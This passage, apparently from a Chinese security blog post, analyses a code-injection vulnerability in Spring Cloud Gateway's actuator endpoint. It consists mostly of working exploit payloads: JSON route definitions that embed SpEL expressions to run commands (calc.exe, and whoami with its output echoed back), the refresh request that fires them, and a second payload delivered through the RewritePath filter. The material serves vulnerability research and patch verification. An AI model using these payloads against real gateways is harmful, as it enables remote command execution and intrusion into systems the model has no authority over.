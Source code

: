 ![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpqFeicvxYGiaGgRt9ZjYicBiabE9RwD3icrUib7YhqP4ft7s5eBIfBVBia3uXIyHNthUBhrbelicENEr5E5bw/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpqFeicvxYGiaGgRt9ZjYicBiabEdgxZz8BJ5OQh1jnSkSIFvxWVWkZGPgFiap6WunKkhPBxK1jcVChNqdQ/640?wx_fmt=jpeg "")  
```
{
  "id": "first_route",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"#{T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")}"}
  }],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```  
  
添加路由信息完成后，还需要进行刷新![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpqFeicvxYGiaGgRt9ZjYicBiabEa8VhuvBDQE5BqkSBlOr76nXaY4Kx7vZjF4o5G9zJrKzMMLJOzgADxw/640?wx_fmt=jpeg "")  
  
```
http://127.0.0.1:8080/actuator/gateway/refresh
```  
  
回显方法  
```
{
  "id": "first_route",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"}
  }],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```  
### Filters  
  
在另一条链路中发现，通过路由对应的 Filters 也是可以触发漏洞  
org.springframework.cloud.gateway.route.RouteDefinitionRouteLocator#loadGatewayFilters  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpqFeicvxYGiaGgRt9ZjYicBiabEMvEVekEVtFkPXGicn77dsDGrPjNmQXSL4qsvIfIj9Rw1BnUaDJgFX1w/640?wx_fmt=jpeg "")  
  
org.springframework.cloud.gateway.route.RouteDefinitionRouteLocator#getFilters  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpqFeicvxYGiaGgRt9ZjYicBiabEgfcSVHUawAO2QyrsicicG5XuouYT6Avt5vpxbMz17IOLRCyViaTMdZibyg/640?wx_fmt=jpeg "")  
  
所以通过构造这样的 poc 也是可以的  
```
{"id":"first_route",
"predicates": [],"filters":[
    {
        "name":"RewritePath",
        "args":{
                "test":"#{T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")}"
    }
    }
],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```  
  